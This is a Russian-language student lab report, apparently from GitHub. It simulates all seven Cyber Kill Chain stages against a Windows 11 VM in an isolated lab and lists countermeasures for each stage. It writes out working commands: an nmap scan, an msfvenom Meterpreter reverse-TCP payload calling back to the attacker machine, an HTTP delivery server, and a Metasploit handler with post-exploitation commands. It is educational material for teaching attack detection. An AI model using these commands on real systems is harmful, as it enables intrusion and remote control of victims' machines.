



# Лабораторная работа №6 📘

## Моделирование Kill Chain процедур 📖

---

### Выполнили:
- студент 5 курса группы **21-К-АС-1**  
  👨🏻 **Копань Артём Алексеевич**
- студент 5 курса группы **21-К-АС-1**  
  👦🏻 **Босых Максим Андреевич**
- студент 5 курса группы **21-К-АС-1**  
  👨🏾‍🦱 **Акопян Роберт Арменович**

---


## Цель работы 🖊️

Изучить модель Cyber Kill Chain, продемонстрировать её этапы на практике в изолированной лабораторной среде, а также показать возможные точки обнаружения и предотвращения атаки.

---

## Используемое окружение 🌍

* **Атакующая машина:** Kali Linux
  IP-адрес: `192.168.3.30`
* **Целевая машина:** Windows 11 (25H2)
  IP-адрес: `192.168.3.25`
* **Среда виртуализации:** Oracle VirtualBox
* **Сеть:** общая виртуальная сеть

---

## Теоретическая часть 📑

**Cyber Kill Chain** — модель, описывающая этапы кибератаки от первоначальной разведки до достижения конечной цели злоумышленника.
Модель была предложена компанией **Lockheed Martin** и включает 7 последовательных этапов:

1. Reconnaissance
2. Weaponization
3. Delivery
4. Exploitation
5. Installation
6. Command & Control (C2)
7. Actions on Objectives

Основная идея модели заключается в том, что разрыв атаки на любом этапе значительно снижает её эффективность или полностью предотвращает компрометацию.

---

## Практическая часть (Вариант 1)

---

## Этап 1. Reconnaissance (Разведка)

### Цель этапа

Сбор информации о целевой системе, определение её доступности и сетевых характеристик.

### Выполненные действия

На атакующей машине Kali Linux был выполнен сетевой скан целевой Windows-машины с помощью Nmap:

```bash
nmap -sS -sV -O 192.168.3.25
```

### Результат

* Хост доступен в сети
* Все TCP-порты отфильтрованы
* Обнаружено использование виртуального сетевого адаптера VirtualBox
* Определение ОС затруднено из-за фильтрации

### Скриншот



### Возможные контрмеры

* Фильтрация входящих соединений (Firewall)
* Сокрытие сетевой информации
* Ограничение ICMP и TCP-ответов

---

## Этап 2. Weaponization (Создание оружия)

### Цель этапа

Создание вредоносной полезной нагрузки для последующей доставки и выполнения.

### Выполненные действия

С помощью `msfvenom` был создан исполняемый файл с Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.30 LPORT=4444 -f exe > payload.exe
```

Payload предназначен для установления обратного соединения с атакующей машиной.

### Возможные контрмеры

* Антивирусы с сигнатурным и эвристическим анализом
* Sandbox-анализ файлов
* Контроль запуска исполняемых файлов

---

## Этап 3. Delivery (Доставка)

### Цель этапа

Передача вредоносного файла на целевую систему.

### Выполненные действия

На Kali Linux был запущен простой HTTP-сервер:

```bash
python3 -m http.server 80
```

На Windows 11 файл `payload.exe` был загружен через браузер по адресу:

```
http://192.168.3.30/payload.exe
```

### Подтверждение доставки



### Возможные контрмеры

* Web-фильтрация
* Запрет загрузки исполняемых файлов
* Обучение пользователей распознаванию угроз

---

## Этапы 4–5. Exploitation & Installation

### Цель этапов

Выполнение вредоносного кода и получение управления над системой.

### Выполненные действия

На Kali Linux был настроен обработчик Metasploit:

```text
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.3.30
set LPORT 4444
run
```

После запуска `payload.exe` на Windows была успешно получена Meterpreter-сессия.

---

## Этап 6. Command & Control (C2)

### Цель этапа

Подтверждение устойчивого канала управления заражённой системой.

### Выполненные команды в Meterpreter

```text
sysinfo
getuid
getsid
```

### Результат

* Получена информация о системе (Windows 11 25H2)
* Определён пользователь `user\user`
* Получен SID системы

### Скриншот



### Возможные контрмеры

* Фильтрация исходящего трафика
* Анализ DNS и сетевых аномалий
* IDS / NDR системы

---

## Этап 7. Actions on Objectives (Действия по достижению цели)

### Цель этапа

Демонстрация возможностей злоумышленника после успешной компрометации.

### Выполненные действия

* Получен скриншот экрана пользователя
* Открыта командная оболочка Windows
* Выполнена команда `whoami`

### Подтверждение

Действия подтверждены выводом Meterpreter и скриншотом экрана целевой системы.

### Возможные контрмеры

* DLP-системы
* Разграничение доступа
* Резервное копирование данных

---

## Вывод

В ходе лабораторной работы была успешно смоделирована атака по модели **Cyber Kill Chain**.
Были пройдены все 7 этапов атаки — от разведки до выполнения действий на целевой системе.
Работа наглядно показала, что эффективная защита возможна при своевременном обнаружении угроз на ранних этапах Kill Chain.

---

